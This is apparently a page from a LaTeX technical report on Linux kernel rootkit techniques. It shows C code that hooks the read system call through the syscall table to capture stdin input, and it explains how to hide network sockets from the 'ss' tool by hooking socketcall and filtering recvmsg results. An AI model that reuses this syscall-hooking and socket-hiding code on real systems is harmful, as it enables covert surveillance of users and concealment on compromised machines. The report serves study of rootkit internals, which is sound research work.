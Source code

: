\documentclass[10pt, letterpaper]{article}
\begin{document}
The following code does all this:

\begin{verbatim}
asmlinkage ssize_t hooked_read(unsigned int fd, char __user *buf, size_t count){
    void** sys_call_table = (void *) ptr_sys_call_table;
    ssize_t retval;
    OUR_TRY_MODULE_GET;
    printk(KERN_INFO "This is the hooked read!\n");
    _memcpy(sys_call_table[SYSCALL_NR], syscall_code, sizeof(syscall_code), 1);
    retval = ((asmlinkage ssize_t (*)(unsigned int, char __user*, size_t))
             sys_call_table[SYSCALL_NR])(fd, buf, count);
    if (retval > 0 && fd == 0){ // we read something from stdin
        handle_input(buf, retval);
    }
    _memcpy(sys_call_table[SYSCALL_NR], new_syscall_code, sizeof(syscall_code), 1);
    OUR_MODULE_PUT;
    return retval;
}
\end{verbatim}

Note the two occurences of \texttt{\_memcpy} that are responsible for backing up and restoring the original \texttt{read} system call.

\subsection{Hiding sockets from \texttt{ss} another way}
\label{sec:socket-hiding-evasion}

As mentioned before, we can hide sockets from \texttt{ss} using another technique. We still hook the \texttt{socketcall} function, but we implement another behaviour. In order to understand how this works, let us shortly examine how \texttt{ss} actually produces its output. We can track down the code of \texttt{ss} to the following essentials (irrelevant things ommited):

\begin{verbatim}
status = recvmsg(fd, &msg, 0); // receive information
[...]                          // buf is somewhere "inside" msg
h = (struct nlmsghdr*)buf;     // buf holds the information for ss
while (NLMSG_OK(h, status)) {  // "parse" information and output
  tcp_show_sock(h, NULL);      // generate one output line
  h = NLMSG_NEXT(h, status);   // fetch next item
}
\end{verbatim}

We see that obviously \texttt{recvmsg} is called, and the resulting information is used to generate the output. \texttt{buf} is a buffer that contains several \texttt{nlmsghdr}s in sequence. These are processed one after another to generate the output.

So, if we are able to modify this sequence of \texttt{nlmsghdr}s that is generated by \texttt{recvmsg}, we are basically done. As we know, the \texttt{recvmsg} system call is internally handled by the \texttt{socketcall} function. We hook this function (by modifying the syscall table) and inject in this way our \texttt{hooked\_socketcall}. 
\end{document}
